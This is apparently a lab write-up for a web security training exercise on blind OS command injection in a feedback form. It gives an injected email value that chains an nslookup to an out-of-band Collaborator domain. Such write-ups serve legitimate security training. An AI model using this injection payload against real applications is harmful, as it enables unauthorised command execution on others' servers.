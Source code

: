 This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

> NOTE: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

> We use Burp Suite to intercept the request that submits feedback.

![image](https://github.com/udayk01/Web-Security/assets/52235763/7b6cd1af-c6e4-478f-861c-0801fe0c7aa2)

> Then we modify the email parameter changing it to `email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`

![image](https://github.com/udayk01/Web-Security/assets/52235763/735695bf-4640-4d57-a7f6-bdaf79b6f6a4)

> We can see the DNS lookup triggered and shown in Collaborator

![image](https://github.com/udayk01/Web-Security/assets/52235763/6fae7131-9afc-4503-bbfb-dee11892afdc)

![image](https://github.com/udayk01/Web-Security/assets/52235763/485b0f10-efef-497f-aa42-c3f4892075ef)



